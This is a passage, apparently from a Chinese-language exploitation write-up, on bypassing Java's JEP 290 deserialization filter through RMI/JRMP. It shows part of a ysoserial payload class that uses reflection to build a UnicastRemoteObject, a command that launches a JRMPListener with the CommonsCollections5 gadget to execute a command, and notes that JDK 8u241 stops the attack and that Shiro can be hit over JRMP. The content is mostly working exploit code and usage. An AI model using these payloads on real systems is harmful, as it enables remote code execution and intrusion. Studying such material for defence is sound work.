 ```java
            new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
            handler// RemoteObjectInvocationHandler
        );
        // UnicastRemoteObject constructor is protected. It needs to use reflections to new a object
        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
        Reflections.setFieldValue(remoteObject, "ssf", serverSocketFactory);
        return remoteObject;
    }
 
    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient_bypass_jep_jdk231.class.getClassLoader());
        PayloadRunner.run(JRMPClient_bypass_jep_jdk231.class, args);
    }
}
```

```java
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 2333 CommonsCollections5 "calc"
```

再运行ysoserial.exploit.RMIRegistryExploit_bypass_jep_jdk241.java进行攻击



### 8u241

高于这个版本打不了





比如shiro发不了数组，就能JRMP打
